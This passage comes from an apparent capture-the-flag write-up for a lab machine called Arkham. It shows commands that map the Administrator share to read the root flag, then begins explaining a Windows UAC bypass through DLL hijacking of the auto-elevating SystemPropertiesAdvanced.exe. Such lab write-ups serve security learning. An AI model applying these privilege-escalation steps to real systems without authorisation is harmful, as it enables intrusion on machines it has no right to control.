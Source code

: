 Unfortunately, even as Batman, we get "Access Denied" when trying to view root.txt. 

---
## Root.txt (Easy Mode)

Although I couldn't access root.txt from the filesytem directly, mapping a drive to the local filesystem worked...

```
C:\Users\Batman\Desktop>net use q: \\arkham\users\administrator
net use q: \\arkham\users\administrator
The command completed successfully.
 
 
C:\Users\Batman\Desktop>q:
q:
 
Q:\>type Desktop\root.txt
type Desktop\root.txt
6367************************4fdb
```

---
## Privilege Escalation (Hard Mode) - UAC Bypass via DLL Hijack

Despite the `Batman` user account being in the Administrators localgroup, our permissions are limited. **This is because of Windows' User Account Control (UAC) security feature**. When we spawn a new cmd.exe process as Batman, UAC needs to prompt a user on the desktop for consent because our cmd process is requesting an administrator access token. There's nobody sitting on the desktop to click the UAC prompt for us, so our cmd.exe process never gets a full administrator token and we're stuck with default privileges.

```
C:\Users\Batman\Documents>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

To elevate privileges we need to find a way to bypass the UAC prompt when requesting an administrator token for our newly spawned process. One way of achieving this is to find "Auto-elevating" binaries that don't require a user to accept a UAC prompt - through which we can attempt to perform a DLL hijack.

This post <https://egre55.github.io/system-properties-uac-bypass/> shows that `SystemPropertiesAdvanced.exe` is vulnerable to UAC bypass via DLL hijacking, because it is configured to Auto-Elevate, which we can confirm by checking the embedded manifest:

